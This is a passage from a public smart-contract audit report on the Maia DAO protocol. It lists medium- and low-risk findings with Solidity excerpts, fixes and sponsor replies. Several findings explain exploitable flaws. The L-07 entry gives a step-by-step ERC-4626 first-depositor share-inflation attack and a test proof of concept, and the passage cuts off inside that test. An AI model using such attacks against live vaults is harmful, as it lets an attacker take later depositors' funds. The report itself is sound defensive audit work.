2. The second concern, is that all of these tokens are approved to the `partnerVault` contract and can be extracted. But implementation of `partnerVault` is out of scope and I don't know if it is possible; this token excess exists in `ERC4626PartnerManager.sol`

### Proof of Concept

The token amount to mint is the difference between `totalSupply * newRate` and is the balance of this contract:

```solidity
    function increaseConversionRate(uint256 newRate) external onlyOwner {
        if (newRate < bHermesRate) revert InvalidRate();

        if (newRate > (address(bHermesToken).balanceOf(address(this)) / totalSupply)) {
            revert InsufficientBacking();
        }

        bHermesRate = newRate;

        partnerGovernance.mint(
            address(this), totalSupply * newRate - address(partnerGovernance).balanceOf(address(this))
        );
        bHermesToken.claimOutstanding();
    }
```

However, it is wrong to account the balance of `address(this)` because it decreases every claim. Let me explain:

Suppose `bHermesRate` = 10, the balance of `bHermes` is 50, `totalSupply` is 0 (nobody has interacted with this yet).

1. User1 deposits 5 MAIA and therefore, mints 5 vMAIA and mints `5 * 10 = 50` `govToken`

```solidity
    function _mint(address to, uint256 amount) internal virtual override {
        if (amount > maxMint(to)) revert ExceedsMaxDeposit();
        bHermesToken.claimOutstanding();

        ERC20MultiVotes(partnerGovernance).mint(address(this), amount * bHermesRate);
        super._mint(to, amount);
    }
```

2. An admin calls `increaseConversionRate(11)`; i.e. increasing the rate by 1. This function will mint `5 * 11 - 0 = 55` tokens, but should mint only `5 * (11 - 10) = 5` tokens

```solidity
        partnerGovernance.mint(
            address(this), totalSupply * newRate - address(partnerGovernance).balanceOf(address(this))
        );
```

### Recommended Mitigation Steps

Refactor the function to:

```solidity
    function increaseConversionRate(uint256 newRate) external onlyOwner {
        if (newRate < bHermesRate) revert InvalidRate();

        if (newRate > (address(bHermesToken).balanceOf(address(this)) / totalSupply)) {
            revert InsufficientBacking();
        }

        partnerGovernance.mint(
            address(this), totalSupply * (newRate - bHermesRate)
        );

        bHermesRate = newRate;

        bHermesToken.claimOutstanding();
    }
```

### Assessed type

ERC20

**[0xLightt (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/191#issuecomment-1650482612):**
> This submission has a cheaper solution, but it is a duplicate of [#741](https://github.com/code-423n4/2023-05-maia-findings/issues/741).
>
> Not sure if this is a duplicate of [#473](https://github.com/code-423n4/2023-05-maia-findings/issues/473), as it does result in the same issue (minting excess partner governance tokens), but the issue here is when increasing the conversion rate. 

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/191#issuecomment-1709936496):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/191).

***

## [[M-40] Governance relies on the current `totalSupply` of `bHermes` when calculating `proposalThresholdAmount` and `quorumVotesAmount`](https://github.com/code-423n4/2023-05-maia-findings/issues/179)
*Submitted by [T1MOH](https://github.com/code-423n4/2023-05-maia-findings/issues/179)*

As people mint `bHermes`, the `bHermesVotes`' `totalSupply` grows; and `quorumVotesAmount` to execute the proposal also grows. But it shouldn't, because new people can't vote for it. This behavior adds inconsistency to the voting process, because it changes the threshold after creating the proposal.

### Proof of Concept

Here, you can see that Governance fetches the current `totalSupply`:

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/governance/GovernorBravoDelegateMaia.sol#L87-L93>

```solidity
    function getProposalThresholdAmount() public view returns (uint256) {
        return govToken.totalSupply() * proposalThreshold / DIVISIONER;
    }

    function getQuorumVotesAmount() public view returns (uint256) {
        return govToken.totalSupply() * quorumVotes / DIVISIONER;
    }
```

`bHermes` is `ERC4626DepositOnly` and mints a new `govToken` when user calls `deposit()` or `mint()`, thus increasing `totalSupply`:

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/hermes/bHermes.sol#L123-L133>

```solidity
    function _mint(address to, uint256 amount) internal virtual override {
        gaugeWeight.mint(address(this), amount);
        gaugeBoost.mint(address(this), amount);
        governance.mint(address(this), amount);
        super._mint(to, amount);
    }
```

### Recommended Mitigation Steps

Add parameter `totalSupply` to the Proposal struct and use it instead of the current `totalSupply` in functions `getProposalThresholdAmount()` and `getQuorumVotesAmount()`.

### Assessed type

Governance

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/179#issuecomment-1631636919)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/179#issuecomment-1653810539):**
 > I believe this is valid, as it is something we want to address (save the `totalSupply` at the time of the creation of every proposal). It is not a duplicate of [#180](https://github.com/code-423n4/2023-05-maia-findings/issues/180).

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/179#issuecomment-1709937490):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/179).

***

## [[M-41] Inconsistencies in reading the encoded parameters received in the `_sParams` argument in `BranchBridgeAgent::clearTokens()`](https://github.com/code-423n4/2023-05-maia-findings/issues/173)
*Submitted by [0xStalin](https://github.com/code-423n4/2023-05-maia-findings/issues/173)*

Token addresses could be computed wrong, which could lead to the tokens getting stuck in the root chain.

### Proof of Concept

The function [clearTokens()](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L565-L634) is called from the [BranchBridgeAgentExecutor::executeWithSettlementMultiple() function](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgentExecutor.sol#L116-L157), which is used when the settlement flag is 2 "Multiple Settlements".

As per the [documentation about the messaging layer written in the `IBranchBridgeAgent` contract](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/interfaces/IBranchBridgeAgent.sol#L112-L136), [when the flag is 2, the structure of the token info is as follows](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/interfaces/IBranchBridgeAgent.sol#L135):

<!---->

     -         - ht = hToken
     -         - t = Token
     -         - A = Amount
     -         - D = Destination
     -         - b = bytes
     -         - n = number of assets
     -         ________________________________________________________________________________________________________________________________
     -        |            Flag               |           Deposit Info           |             Token Info             |   DATA   |  Gas Info   |
     -        |           1 byte              |            4-25 bytes            |        (105 or 128) * n bytes      |   ---	   |  16 bytes   |
     -        |                               |                                  |            hT - t - A - D          |          |             |
     -        |_______________________________|__________________________________|____________________________________|__________|_____________|

     -        | callOutMulti = 0x2            |  1b(n) + 20b(recipient) + 4b     |   	     32b + 32b + 32b + 32b      |   ---	   |     16b     |

3 of the 4 parameters encoded in `_sParams` ([hTokens](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L582-L593), [amounts](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L604-L612) and [deposits](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L613-L621)) read the whole 32 bytes and [tokens read only 20 bytes](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L594-L603).

### Recommended Mitigation Steps

Standardize the way to read parameters from the received `_sParams`. If all parameters are bytes32, make sure to read all the bytes corresponding to such a parameter and from there, do the required conversions to another data type.

```solidity
function clearTokens(bytes calldata _sParams, address _recipient)
    ...
{
    ...
        _tokens[i] = address(
            uint160(
                bytes20(
                    bytes32(
                        _sParams[
                            PARAMS_TKN_START + PARAMS_ENTRY_SIZE * uint16(i + numOfAssets) + 12:
                                PARAMS_TKN_START + PARAMS_ENTRY_SIZE * uint16(PARAMS_START + i + numOfAssets)
                        ]
                    )     
                )
            )
        );
    ...
}
```

### Assessed type

en/de-code

**[0xBugsy (Maia) confirmed, but disagreed with severity](https://github.com/code-423n4/2023-05-maia-findings/issues/173#issuecomment-1650296453)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/173#issuecomment-1709944817):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/commit/762067df869fdf6e21fdd125524e93c51ead6db2).

***

## [[M-42] `UlyssesPool.sol` does not match `EIP4626` because of the preview functions](https://github.com/code-423n4/2023-05-maia-findings/issues/98)
*Submitted by [T1MOH](https://github.com/code-423n4/2023-05-maia-findings/issues/98), also found by [BPZ](https://github.com/code-423n4/2023-05-maia-findings/issues/438)*

According to EIP4626, `previewDeposit()`, `previewRedeem()` and `previewMint()` must include a fee in the returned value:
1. `previewDeposit` "MUST be inclusive of deposit fees. Integrators should be aware of the existence of deposit fees."
2. `previewRedeem` "MUST be inclusive of withdrawal fees. Integrators should be aware of the existence of withdrawal fees."
3. `previewMint` "MUST be inclusive of deposit fees. Integrators should be aware of the existence of deposit fees."

### Proof of Concept

`UlyssesPool.sol` inherits `UlyssesERC4626.sol` with default implementation:

https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/erc-4626/UlyssesERC4626.sol#L96-L106>

```solidity
    function previewDeposit(uint256 assets) public view virtual returns (uint256) {
        return assets;
    }

    function previewMint(uint256 shares) public view virtual returns (uint256) {
        return shares;
    }

    function previewRedeem(uint256 shares) public view virtual returns (uint256) {
        return shares;
    }
```

However, `deposit`, `redeem` and `mint` in `UlyssesPool.sol` take fees:

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/ulysses-amm/UlyssesPool.sol#L1200-L1221>

```solidity
    function beforeDeposit(uint256 assets) internal override returns (uint256 shares) {
        // Update deposit/mint
        shares = ulyssesAddLP(assets, true);
    }

    /**
     * @notice Performs the necessary steps to make after depositing.
     * @param assets to be deposited
     */
    function beforeMint(uint256 shares) internal override returns (uint256 assets) {
        // Update deposit/mint
        assets = ulyssesAddLP(shares, false);
    }

    /**
     * @notice Performs the necessary steps to take before withdrawing assets
     * @param shares to be burned
     */
    function afterRedeem(uint256 shares) internal override returns (uint256 assets) {
        // Update withdraw/redeem
        assets = ulyssesRemoveLP(shares);
    }
```

Furthermore, you can check that the functions `ulyssesAddLP()` and `ulyssesRemoveLP()` take fees. I consider it overabundant in this submission.

### Recommended Mitigation Steps

Override the preview functions in `UlyssesPool.sol` to include fees.

### Assessed type

ERC4626

**[0xLightt (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/98#issuecomment-1655654891):**
 > We recognize the audit's findings on Ulysses AMM. These will not be rectified due to the upcoming migration of this section to Balancer Stable Pools.

***

## [[M-43] Deploy flow of `Talos` is broken](https://github.com/code-423n4/2023-05-maia-findings/issues/75)
*Submitted by [T1MOH](https://github.com/code-423n4/2023-05-maia-findings/issues/75)*

The `Talos` protocol can't be deployed in a right way.

### Proof of Concept

`TalosBaseStrategy` needs `TalosManager` to be passed in the constructor:

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/talos/base/TalosBaseStrategy.sol#L79-L95>

```solidity
    constructor(
        IUniswapV3Pool _pool,
        ITalosOptimizer _optimizer,
        INonfungiblePositionManager _nonfungiblePositionManager,
        address _strategyManager,
        address _owner
    ) ERC20("TALOS LP", "TLP", 18) {
        ...

        strategyManager = _strategyManager;
        
        ...
    }
```

But `TalosManager` needs `Strategy` to be passed into the constructor:

<https://github.com/code-423n4/2023-05-maia/blob/54a45beb1428d85999da3f721f923cbf36ee3d35/src/talos/TalosManager.sol#L44-L56>

```solidity
   constructor(
        address _strategy,
        int24 _ticksFromLowerRebalance,
        int24 _ticksFromUpperRebalance,
        int24 _ticksFromLowerRerange,
        int24 _ticksFromUpperRerange
    ) {
        strategy = ITalosBaseStrategy(_strategy);
        
        ...
    }
```

### Recommended Mitigation Steps

Add setters for complete deploy or initializing function.

### Assessed type

DoS

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/75#issuecomment-1631475531)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/75#issuecomment-1709185337):**
 > Addressed [here](https://github.com/Maia-DAO/eco-c4-contest/tree/75).

***

## [[M-44] Improper array initialization causes an index "out of bounds" error](https://github.com/code-423n4/2023-05-maia-findings/issues/25)
*Submitted by [ltyu](https://github.com/code-423n4/2023-05-maia-findings/issues/25)*

In `createPools` of `UlyssesFactory.sol`, the return parameter `poolIds` is used to store new pool Ids after creation. However, it has not been initialized. This causes an index "out of bounds" error when `createPools` is called.

### Proof of Concept

Any test that calls `ulyssesFactory.createPools(...);` will cause an index out of bounds.

### Recommended Mitigation Steps

Consider adding this line:

    poolIds = new uint256[](length);

### Assessed type

Invalid Validation

**[0xLightt (Maia) confirmed](https://github.com/code-423n4/2023-05-maia-findings/issues/25#issuecomment-1631415244)**

**[0xLightt (Maia) commented](https://github.com/code-423n4/2023-05-maia-findings/issues/25#issuecomment-1655653135):**
 > We recognize the audit's findings on Ulysses AMM. These will not be rectified due to the upcoming migration of this section to Balancer Stable Pools.

***

# Low Risk and Non-Critical Issues

For this audit, 21 reports were submitted by wardens detailing low risk and non-critical issues. The [report highlighted below](https://github.com/code-423n4/2023-05-maia-findings/issues/586) by **0xSmartContract** received the top score from the judge.

*The following wardens also submitted reports: [brgltd](https://github.com/code-423n4/2023-05-maia-findings/issues/895), 
[nadin](https://github.com/code-423n4/2023-05-maia-findings/issues/881), 
[Madalad](https://github.com/code-423n4/2023-05-maia-findings/issues/862), 
[RED-LOTUS-REACH](https://github.com/code-423n4/2023-05-maia-findings/issues/835), 
[Udsen](https://github.com/code-423n4/2023-05-maia-findings/issues/829), 
[bin2chen](https://github.com/code-423n4/2023-05-maia-findings/issues/807), 
[mgf15](https://github.com/code-423n4/2023-05-maia-findings/issues/797), 
[kaveyjoe](https://github.com/code-423n4/2023-05-maia-findings/issues/754), 
[Rolezn](https://github.com/code-423n4/2023-05-maia-findings/issues/551), 
[IllIllI](https://github.com/code-423n4/2023-05-maia-findings/issues/548), 
[Kamil-Chmielewski](https://github.com/code-423n4/2023-05-maia-findings/issues/539), 
[kodyvim](https://github.com/code-423n4/2023-05-maia-findings/issues/483), 
[matrix\_0wl](https://github.com/code-423n4/2023-05-maia-findings/issues/458), 
[ihtishamsudo](https://github.com/code-423n4/2023-05-maia-findings/issues/231), 
[lukejohn](https://github.com/code-423n4/2023-05-maia-findings/issues/198), 
[ByteBandits](https://github.com/code-423n4/2023-05-maia-findings/issues/188), 
[Audit\_Avengers](https://github.com/code-423n4/2023-05-maia-findings/issues/144), 
[3kus-iosiro](https://github.com/code-423n4/2023-05-maia-findings/issues/95), 
[Stormreckson](https://github.com/code-423n4/2023-05-maia-findings/issues/87) and
[Sathish9098](https://github.com/code-423n4/2023-05-maia-findings/issues/12).*

## Low Risk Summary
| Count | Title | 
|:--:|:-------|
| [L-01] | There may be problems with the use of `Layer2`
| [L-02] | Head overflow cug in `Calldata` Tuple ABI-Reencoding
| [L-03] | There is a risk that a user with a high governance power will not be able to bid with `propose()`
| [L-04] | Migrating with `migratePartnerVault()` may result in a loss of user funds
| [L-05] | Project Upgrade and Stop Scenario should be added
| [L-06] | Project has a security risk from DAO attack using the proposal
| [L-07] | The first ERC4626 deposit exploit can break a share calculation
| [L-08] | Missing Event for `initialize`
| [L-09] | Missing a `maxwithdraw` check in withdraw function of ERC-4626
| [L-10] | Processing of `poolId` and `tokenId` incorrectly starts with a "2" instead of a "1"
| [L-11] | If `onlyOwner` runs `renounceOwnership()` in the `PartnerManagerFactory` contract, the contract may become unavailable
| [L-12] | There isn't a `skim` function
| [L-13] | Contract `ERC4626.sol` is used as a dependency; does not track upstream changes
| [L-14] | Use ERC-5143: Slippage Protection for Tokenized Vault

## Non-Critical Summary
| Count | Title | 
|:--:|:-------|
| [N-01] | Unused Imports
| [N-02] | `Assembly` codes, specifically, should have comments
| [N-03] | With `0 address` control of `owner`, it is a best practice to maintain consistency across the entire codebase.
| [N-04] | `DIVISIONER` is inconsistent across contracts
| [N-05] | The `nonce` architecture of the `delegateBySig()` function isn’t usefull  
| [N-06] | Does not `event-emit` during significant parameter changes

## [L-01] There may be problems with the use of `Layer2`

According to the scope information of the project, it is stated that it can be used in rollup chains and popular EVM chains.

```js
README.md:
  797  - Is it a fork of a popular project?:   true
  798: - Does it use rollups?:   true
  799: - Is it multi-chain?:  true
  800: - Does it use a side-chain?: true

```

Some conventions in the project are set to version Pragma 0.8.19, allowing the conventions to be compiled with any 0.8.x compiler. The problem with this, is that Arbitrum is [Compatible](https://developer.arbitrum.io/solidity-support) with 0.8.20 and newer. Contracts compiled with these versions will result in a non-functional or potentially damaged version that does not behave as expected. The default behavior of the compiler will be to use the latest version, which means it will compile with version 0.8.20, which will produce broken code by default.

## [L-02] Head overflow bug in `Calldata` Tuple ABI-Reencoding

There is a known security vulnerability between versions 0.5.8 - 0.8.16 of Solidity, details on it below:

The effects of the bug manifest when a contract performs ABI-encoding of a tuple that meets all of the following conditions:

- The last component of the tuple is a (potentially nested) statically-sized `calldata` array with the most base type being either uint or bytes32. E.g. bytes32[10] or uint[2][2][2].
- The tuple contains at least one dynamic component. E.g. bytes or a struct containing a dynamic array.
- The code is using ABI coder v2, which is the default since Solidity 0.8.0.

https://blog.soliditylang.org/2022/08/08/calldata-tuple-reencoding-head-overflow-bug/

```solidity
   3: pragma solidity ^0.8.0;

src/ulysses-omnichain/interfaces/IVirtualAccount.sol:
   7: struct Call {
   8:     address target;
   9:     bytes callData; // @audit dynamic
  10: }


src/ulysses-omnichain/VirtualAccount.sol:
  40      /// @inheritdoc IVirtualAccount
  41:     function call(Call[] calldata calls)  // @audit Call tupple 
  42:         external
  43:         requiresApprovedCaller
  44:         returns (uint256 blockNumber, bytes[] memory returnData)
  45:     {
```

### Recommendation

Because of this problem, I recommend coding the contract with a fixed pragma instead of a floating pragma for compiling with min 0.8.16 and higher versions. `VirtualAccount` contracts can be compiled with a floating pragma with all versions 0.8

## [L-03] There is a risk that a user with a high governance power will not be able to bid with `propose()`

Centralization risk in the DOA mechanism is that the people who can submit proposals must be on the whitelist, which is contrary to the essence of the DAO, as it carries the risk of a user not being able to submit a proposal in the DAO even if they have a very high stake.

We should point out that this problem is beyond the centrality risk and is contrary to the functioning of the DAO. Because a user must have a governance token to be active in the DAO, they may not be able to bid if they are not included in the whitelist. There is no information in the documents about whether there is a warning that they cannot make a proposal if they are not on the whitelist.

There is no information on how, under what conditions and by whom the whitelist will be taken.

```solidity

src/governance/GovernorBravoDelegateMaia.sol:
  103       */
  104:     function propose(
  105:         address[] memory targets,
  106:         uint256[] memory values,
  107:         string[] memory signatures,
  108:         bytes[] memory calldatas,
  109:         string memory description
  110:     ) public returns (uint256) {
  111:         // Reject proposals before initiating as Governor
  112:         require(initialProposalId != 0, "GovernorBravo::propose: Governor Bravo not active");
  113:         // Allow addresses above proposal threshold and whitelisted addresses to propose
  114:         require(
  115:             govToken.getPriorVotes(msg.sender, sub256(block.number, 1)) > getProposalThresholdAmount()
  116:                 || isWhitelisted(msg.sender),
  117:             "GovernorBravo::propose: proposer votes below proposal threshold"
  118:         );
  119:         require(
  120:             targets.length == values.length && targets.length == signatures.length && targets.length == calldatas.length,
  121:             "GovernorBravo::propose: proposal function information arity mismatch"
  122:         );
  123:         require(targets.length != 0, "GovernorBravo::propose: must provide actions");
  124:         require(targets.length <= proposalMaxOperations, "GovernorBravo::propose: too many actions");
  125: 
  126:         uint256 latestProposalId = latestProposalIds[msg.sender];
  127:         if (latestProposalId != 0) {
  128:             ProposalState proposersLatestProposalState = state(latestProposalId);
  129:             require(
  130:                 proposersLatestProposalState != ProposalState.Active,
  131:                 "GovernorBravo::propose: one live proposal per proposer, found an already active proposal"
  132:             );
  133:             require(
  134:                 proposersLatestProposalState != ProposalState.Pending,
  135:                 "GovernorBravo::propose: one live proposal per proposer, found an already pending proposal"
  136:             );
  137:         }
  138: 
  139:         uint256 startBlock = add256(block.number, votingDelay);
  140:         uint256 endBlock = add256(startBlock, votingPeriod);
  141: 
  142:         proposalCount++;
  143:         uint256 newProposalID = proposalCount;
  144:         Proposal storage newProposal = proposals[newProposalID];
  145:         // This should never happen but add a check in case.
  146:         require(newProposal.id == 0, "GovernorBravo::propose: ProposalID collsion");
  147:         newProposal.id = newProposalID;
  148:         newProposal.proposer = msg.sender;
  149:         newProposal.eta = 0;
  150:         newProposal.targets = targets;
  151:         newProposal.values = values;
  152:         newProposal.signatures = signatures;
  153:         newProposal.calldatas = calldatas;
  154:         newProposal.startBlock = startBlock;
  155:         newProposal.endBlock = endBlock;
  156:         newProposal.forVotes = 0;
  157:         newProposal.againstVotes = 0;
  158:         newProposal.abstainVotes = 0;
  159:         newProposal.canceled = false;
  160:         newProposal.executed = false;
  161: 
  162:         latestProposalIds[newProposal.proposer] = newProposal.id;
  163: 
  164:         emit ProposalCreated(
  165:             newProposal.id, msg.sender, targets, values, signatures, calldatas, startBlock, endBlock, description
  166:         );
  167:         return newProposal.id;
  168:     }
```

### Proof of concept

1. Alice receives a governance token to be actively involved in the project's DAO, participates in the voting, and also wants to present a proposal with the proposal in the project; however, they cannot do this because there is no whitelist.
2. There is no information about the whitelist conditions and how to whitelist Alice in the documents and NatSpec comments.

It is observed that the DAO proposals of the project are voted by a small number of people; for example, this can be seen in the proposal below. As the project is new, this is normal in DAO ecosystems, but the centrality risk should be expected to decrease over time:

https://snapshot.org/#/maiadao.eth/proposal/0x38d9ffaa0641eb494c20d2b034df321a6865bf8859487468e1583dd095837488

### Recommendation

1. In the short term, clarify the whitelist terms and processes and add them to the documents. Also, inform the users as a front-end warning in Governance token purchases.
2. In the long term, in accordance with the philosophy of the DAO, ensure that a proposal can be made according to the share weight.

## [L-04] Migrating with "migratePartnerVault()" may result in a loss of user funds

The `ERC4626PartnerManager.migratePartnerVault()` function defines the new vault contract in case vaults are migrated.

```solidity
src/maia/tokens/ERC4626PartnerManager.sol:
  187      /// @inheritdoc IERC4626PartnerManager
  188:     function migratePartnerVault(address newPartnerVault) external onlyOwner {
  189:         if (factory.vaultIds(IBaseVault(newPartnerVault)) == 0) revert UnrecognizedVault();
  190: 
  191:         address oldPartnerVault = partnerVault;
  192:         if (oldPartnerVault != address(0)) IBaseVault(oldPartnerVault).clearAll();
  193:         bHermesToken.claimOutstanding();
  194: 
  195:         address(gaugeWeight).safeApprove(oldPartnerVault, 0);
  196:         address(gaugeBoost).safeApprove(oldPartnerVault, 0);
  197:         address(governance).safeApprove(oldPartnerVault, 0);
  198:         address(partnerGovernance).safeApprove(oldPartnerVault, 0);
  199: 
  200:         address(gaugeWeight).safeApprove(newPartnerVault, type(uint256).max);
  201:         address(gaugeBoost).safeApprove(newPartnerVault, type(uint256).max);
  202:         address(governance).safeApprove(newPartnerVault, type(uint256).max);
  203:         address(partnerGovernance).safeApprove(newPartnerVault, type(uint256).max);
  204: 
  205:         partnerVault = newPartnerVault;
  206:         if (newPartnerVault != address(0)) IBaseVault(newPartnerVault).applyAll();
  207: 
  208:         emit MigratePartnerVault(address(this), newPartnerVault);
  209:     }
```
However, it has some design vulnerabilities:

1. For best practice, many projects use an upgradable pattern instead of `migrate`; using a more war-tested method is more accurate in terms of security. Upgradability allows for making changes to the contract logic while preserving the state and user funds. Migrating contracts can introduce additional risks, as the new contract may not have the same level of security or functionality. Consider implementing an upgradability pattern, such as using proxy contracts or a modular design, to allow for safer upgrades without compromising user funds.

2. There may be user losses due to the funds remaining in the old safe. There is no control regarding this.

### Recommendation

To mitigate this risk, you should implement appropriate measures to handle user funds during migration. This could involve implementing mechanisms, such as time-limited withdrawal periods or providing clear instructions and notifications to users about the migration process; this ensures they will have the opportunity to withdraw their funds from the old vault before the migration occurs.

```diff
src/maia/tokens/ERC4626PartnerManager.sol:
  187      /// @inheritdoc IERC4626PartnerManager
  188:     function migratePartnerVault(address newPartnerVault) external onlyOwner {
  189:         if (factory.vaultIds(IBaseVault(newPartnerVault)) == 0) revert UnrecognizedVault();
  190: 
  191:         address oldPartnerVault = partnerVault;
- 192:         if (oldPartnerVault != address(0)) IBaseVault(oldPartnerVault).clearAll();
+                 if (oldPartnerVault != address(0)) {
+                     // Check if there are user funds in the old vault
+                     uint256 oldVaultBalance = IBaseVault(oldPartnerVault).getBalance(); // Assuming a function to retrieve the balance
+                     if (oldVaultBalance > 0) {
+                          // Handle the situation where user funds exist in the old vault
+                          // You can choose an appropriate action, such as notifying users or allowing them to withdraw their funds
+                        // It's important to define a clear process and communicate it to users in advance
+                        revert UserFundsExistInOldVault();
+                      }
+                      IBaseVault(oldPartnerVault).clearAll();
+                }

  193:         bHermesToken.claimOutstanding();
  194: 
  195:         address(gaugeWeight).safeApprove(oldPartnerVault, 0);
  196:         address(gaugeBoost).safeApprove(oldPartnerVault, 0);
  197:         address(governance).safeApprove(oldPartnerVault, 0);
  198:         address(partnerGovernance).safeApprove(oldPartnerVault, 0);
  199: 
  200:         address(gaugeWeight).safeApprove(newPartnerVault, type(uint256).max);
  201:         address(gaugeBoost).safeApprove(newPartnerVault, type(uint256).max);
  202:         address(governance).safeApprove(newPartnerVault, type(uint256).max);
  203:         address(partnerGovernance).safeApprove(newPartnerVault, type(uint256).max);
  204: 
  205:         partnerVault = newPartnerVault;
  206:         if (newPartnerVault != address(0)) IBaseVault(newPartnerVault).applyAll();
  207: 
  208:         emit MigratePartnerVault(address(this), newPartnerVault);
  209:     }
```

## [L-05] Project Upgrade and Stop Scenario should be added

At the start of the project, the system may need to be stopped or upgraded. I suggest you have a script beforehand and add it to the documentation. This can also be called an "EMERGENCY STOP (CIRCUIT BREAKER) PATTERN".

This can be done by adding the 'pause' architecture, which is included in many projects, to the critical functions and by authorizing the existing `onlyOwner`.

https://github.com/maxwoe/solidity_patterns/blob/master/security/EmergencyStop.sol

## [L-06] Project has a security risk from DAO attack using the proposal

If the `GovernorBravoDelegateMaia.propose()` function is used to propose a new proposal, the sender must have delegates above the proposal threshold. This function is very critical because it builds an important task where DAO proposals are given; however, it should be tightly controlled for a recent security concern. The proposal mechanism in the DAO must have limits, as not everyone can read the code in proposal evaluation. The following hack is done using exactly this function. Each proposal in it may even need to pass a minor inspection.

https://cointelegraph.com/news/attacker-hijacks-tornado-cash-governance-via-malicious-proposal

```solidity

src/governance/GovernorBravoDelegateMaia.sol:

  103       */

  104:     function propose(
  105:         address[] memory targets,
  106:         uint256[] memory values,
  107:         string[] memory signatures,
  108:         bytes[] memory calldatas,
  109:         string memory description
  110:     ) public returns (uint256) {
                   // Code Details...
```

This vulnerability is very new and very difficult to prevent, but the importance of the project regarding this vulnerability could not be seen in the documents and NatSpec comments.

It is known that only whitelist users can submit proposals, but the whitelist terms (etc.) are unknown, so this problem persists.

### Proof of concept

A similar vulnerability has been analyzed in full detail [here](https://twitter.com/BlockSecTeam/status/1660214665429876740?t=bxFysCYHryV3Rx0yeGmmTg&s=33) and [here](https://docs.google.com/presentation/d/1QgYUmowhFxjuh18eV7zIlz0icr4MfnjKOJJ__yYVz-w/edit#slide=id.p).

### Recommendation

Projects should have a short audit of the proposals.

https://a16zcrypto.com/posts/article/dao-governance-attacks-and-how-to-avoid-them/

## [L-07] The first ERC4626 deposit exploit can break a share calculation

A well known attack vector for almost all shares is based in liquidity pool contracts, where an early user can manipulate the price per share and profit from late user deposits because of the precision loss caused by the rather large value of price per share.

```solidity

src/erc-4626/ERC4626.sol:
  105      /// @inheritdoc IERC4626
  106:     function convertToShares(uint256 assets) public view virtual returns (uint256) {
  107:         uint256 supply = totalSupply; // Saves an extra SLOAD if totalSupply is non-zero.
  108: 
  109:         return supply == 0 ? assets : assets.mulDiv(supply, totalAssets());
  110:     }
  111  

src/erc-4626/ERC4626DepositOnly.sol:
  67      /// @inheritdoc IERC4626DepositOnly
  68:     function convertToShares(uint256 assets) public view virtual returns (uint256) {
  69:         uint256 supply = totalSupply; // Saves an extra SLOAD if totalSupply is non-zero.
  70: 
  71:         return supply == 0 ? assets : assets.mulDiv(supply, totalAssets());
  72:     }
```

### Proof Of Concept

1. A malicious early user can `deposit()` with 1 wei of asset token as the first depositor of the `LToken`, and get 1 wei of shares.

2. Then the attacker can send 10000e18 - 1 of asset tokens and inflate the price per share from 1.0000 to an extreme value of 1.0000e22 (from (`1 + 10000e18 - 1) / 1`).

3. As a result, the future user who deposits 19999e18 will only receive 1 wei (from `19999e18 * 1 / 10000e18`) of the shares token.

4. They will immediately lose 9999e18, or half of their deposits, if they `redeem()` right after the `deposit()`.

The attacker can profit from future users' deposits, while the late users will lose part of their funds to the attacker.

```solidity
// test/ERC4626-Cloned.t.sol
function SharePriceManipulation() external {
    address USER1 = address(0x583031D1113aD414F02576BD6afaBfb302140225);
    address USER2 = address(0xdD870fA1b7C4700F2BD7f44238821C26f7392148);
    vm.label(USER1, "USER1");
    vm.label(USER2, "USER2");

    // Resetting the withdrawal fee for cleaner amounts.
    ERC4626-Cloned.setWithdrawalPenalty(0);

    vm.startPrank(address(VaultToken));        
    VaultToken.mint(USER1, 10e18);
    VaultToken.mint(USER2, 19e18);
    vm.stopPrank();

    vm.startPrank(USER1);
    VaultToken.approve(address(ERC4626-Cloned), 1);
    // USER1 deposits 1 wei of VaultToken and gets 1 wei of shares.
    ERC4626-Cloned.deposit(1, USER1);
    // USER1 sends 10e18-1 of VaultToken and sets the price of 1 wei of shares to 10e18 VaultToken.
    VaultToken.transfer(address(ERC4626-Cloned), 10e18-1);
    vm.stopPrank();

    vm.startPrank(USER2);
    VaultToken.approve(address(ERC4626-Cloned), 19e18);
    // USER2 deposits 19e18 of VaultToken and gets 1 wei of shares due to rounding and the price manipulation.
    ERC4626-Cloned.deposit(19e18, USER2);
    vm.stopPrank();

    // USER1 and USER2 redeem their shares.           
    vm.prank(USER1);
    ERC4626-Cloned.redeem(1, USER1, USER1);
    vm.prank(USER2);
    ERC4626-Cloned.redeem(1, USER2, USER2);

    // USER1 and USER2 both got 14.5 VaultToken.
